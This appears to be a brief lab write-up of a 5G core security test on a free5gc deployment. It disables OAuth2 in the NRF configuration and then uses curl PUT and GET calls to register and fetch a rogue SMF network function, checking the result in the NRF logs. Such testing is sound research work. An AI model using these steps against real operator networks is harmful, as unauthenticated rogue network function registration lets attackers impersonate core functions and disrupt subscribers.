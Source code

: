 objective: Regisration of a Rogue NF and observing the behavior and impact

Step 1: Disable the oAuth2 parameter in the configuration file

/home/ubuntu/codebase/5gcore/free5gc/free5gc-helm/charts/free5gc/charts/free5gc-nrf# cat values.yaml

Step 2: Register the Rogue NF (SMF) into the network

cat reg.json

curl -X PUT --http2-prior-knowledge  http://10.246.3.90:8000/nnrf-nfm/v1/nf-instances/1ad5ed78-7ca0-41ef-816c-000099998899 -d @reg.json

Step 3: Get the NF profile of the Rogue NF from the NRF

curl --http2-prior-knowledge -X GET http://10.246.3.90:8000/nnrf-nfm/v1/nf-instances/1ad5ed78-7ca0-41ef-816c-000099998899


Step 4: Verify the logs

kubectl logs -n free5gc free5gc-helm-free5gc-nrf-nrf-59d9d649-dllbw

 Handle GetNFInstanceRequest
2025-05-08T17:11:21.500930310Z [INFO][NRF][GIN] | 200 |    172.31.7.214 | GET     | /nnrf-nfm/v1/nf-instances/1ad5ed78-7ca0-41ef-816c-000099998899 |


